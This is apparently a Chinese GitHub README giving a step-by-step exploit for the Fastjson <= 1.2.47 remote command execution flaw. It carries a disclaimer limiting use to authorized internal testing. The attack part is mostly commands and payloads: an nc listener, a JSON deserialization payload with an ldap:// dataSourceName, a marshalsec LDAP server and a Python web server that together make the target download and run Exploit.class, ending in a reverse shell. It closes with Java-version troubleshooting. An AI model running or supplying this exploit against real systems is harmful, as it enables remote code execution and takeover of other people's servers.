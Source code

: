 # fastjson-1.2.47-RCE
Fastjson &lt;= 1.2.47 远程命令执行漏洞利用工具及方法，以及避开坑点

以下操作均在Ubuntu 18下亲测可用，openjdk需要切换到8，且使用8的javac
```
> java -version
openjdk versin "1.8.0_222"

> javac -version
javac 1.8.0_222
```

### 声明

使用者在传播、利用本工具所提供的信息过程中，若产生任何直接或间接的后果与损失，均由使用者自行承担责任，作者对此不承担任何责任。
本人保留对此工具的修改权与解释权。未经网络安全部门及相关部门许可，严禁擅自使用本工具开展任何攻击活动，亦不得以任何形式将其用于商业目的。
本工具仅授权于企业内部进行问题排查，严禁用于非法用途。请严格遵守《网络安全法》，否则，作者将不承担任何由此产生的后果。

### 0x00 假设存在漏洞的功能

```
# param参数内容被fastjson调用解析

POST /note/submit/

param={'id':29384,'content':'Hello','type':'string'}
```

### 0x01 测试外连

准备一台服务器监听流量
```
nc -lvvp 7777
```

发送Payload，将IP改为监听服务器IP
```
POST /note/submit/

param={"name":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"x":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://IP:7777/Exploit","autoCommit":true}}}
```

如果监听服务器有流量，可以继续下一步

### 0x02 准备LDAP服务和Web服务

将marshalsec-0.0.3-SNAPSHOT-all.jar文件和Exploit.java放在同一目录下

在当前目录下运行LDAP服务,修改IP为当前这台服务器的IP
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://IP/#Exploit
```

在当前目录下运行Web服务
```
python3 -m http.server 80 或者 python -m SimpleHTTPServer 80
```

### 0x03 修改Exploit并编译成class文件

修改Exploit.java中的反弹IP和端口（准备接收反弹SHELL的服务器IP和监听端口）

使用javac编译Exploit.java，生成Exploit.class文件（注意：javac版本最好与目标服务器接近，否则目标服务器无法解析class文件，会报错）
```
javac Exploit.java
```

### 0x03 准备

回顾一下，现在目录应该有三个文件
```
marshalsec-0.0.3-SNAPSHOT-all.jar
Exploit.java
Exploit.class
```

服务器正在开启LDAP和Web
```
LDAP Server：Listening on 0.0.0.0:1389
Web  Server：Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

一个nc正在准备接收反弹回来的SHELL
```
nc -lvvp 7777
```

### 0x04 执行
修改ip为正在运行LDAP和Web服务的服务器IP
```
POST /note/submit

param={"name":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"x":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://ip:1389/Exploit","autoCommit":true}}}
```

接下来如果没有任何报错的话，LDAP将会把请求Redirect到Web服务，Fastjson将会下载Exploit.class，并解析运行

你的LDAP服务和Web服务都会收到请求记录，如果没有问题，你的nc也会收到反弹回来的SHELL

### 0x05 问题

当javac版本和目标服务器差太多，会报一个下面那样的错误，所以需要使用1.8的javac来编译Exploit.java
```
Caused by: java.lang.UnsupportedClassVersionError: Exploit has been compiled by a more recent version of the Java Runtime (class file version 55.0), this version of the Java Runtime only recognizes class file versions up to 52.0
```

当运行LDAP的服务器java版本过高，会无法运行LDAP服务，虽然显示正在Listening，但是Fastjson的JNDI会报错，显示无法获取到资源，所以要使用java 1.8（openjdk 8）来运行LDAP服务
